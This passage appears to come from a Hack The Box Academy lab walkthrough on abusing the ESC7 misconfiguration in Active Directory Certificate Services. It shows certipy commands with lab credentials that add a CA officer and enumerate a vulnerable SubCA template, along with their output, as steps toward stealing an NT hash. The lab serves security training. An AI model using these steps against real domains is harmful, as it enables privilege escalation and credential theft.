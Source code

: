 
Answer: `Juanmy`

# ESC7

## Question 3

### "Abuse the ESC7 misconfiguration and steal the NT hash of the account Josy"

By analyzing the output from the `certipy` `find` command used in the previous question, students have learned that the user `blwasp` possesses dangerous permissions over the CA, rendering it vulnerable to `ESC7`. Consequently, they need to use the `ca` command of `certipy` to grant `ManageCertificates` rights to the user, specifying the `blwasp` user for the `-add-officer` option:

Code: shell

```shell
certipy ca -u blwasp@lab.local -p Password123! -ca lab-LAB-DC-CA -add-officer blwasp
```

```
┌─[us-academy-1]─[10.10.15.48]─[htb-ac-413848@htb-dcsgrv7yfv]─[~]
└──╼ [★]$ certipy ca -u blwasp@lab.local -p Password123! -ca lab-LAB-DC-CA -add-officer blwasp

Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Successfully added officer 'blwasp' on 'lab-LAB-DC-CA'
```

Additionally, when using the `find` command of `certipy` along with the `-enabled` option, students will discover that the built-in template `SubCA`, which is vulnerable to `ESC1` by default (and allows `Client Authentication`), is enabled:

Code: shell

```shell
certipy find -u blwasp@lab.local -p Password123! -dc-ip STMIP -enabled -stdout
```

```
┌─[us-academy-1]─[10.10.15.48]─[htb-ac-413848@htb-6eyilg2fh9]─[~]
└──╼ [★]$ certipy find -u blwasp@lab.local -p Password123! -dc-ip 10.129.130.56 -enabled -stdout

Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 41 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 18 enabled certificate templates
[*] Trying to get CA configuration for 'lab-LAB-DC-CA' via CSRA
[*] Got CA configuration for 'lab-LAB-DC-CA'
<SNIP>
 4
    Template Name                       : SubCA
    Display Name                        : Subordinate Certification Authority
    Certificate Authorities             : lab-LAB-DC-CA
    Enabled                             : True
    Client Authentication               : True
    Enrollment Agent                    : True
    Any Purpose                         : True
    Enrollee Supplies Subject           : True
    Certificate Name Flag               : EnrolleeSuppliesSubject
    Enrollment Flag                     : None
    Private Key Flag                    : ExportableKey
    Requires Manager Approval           : False
```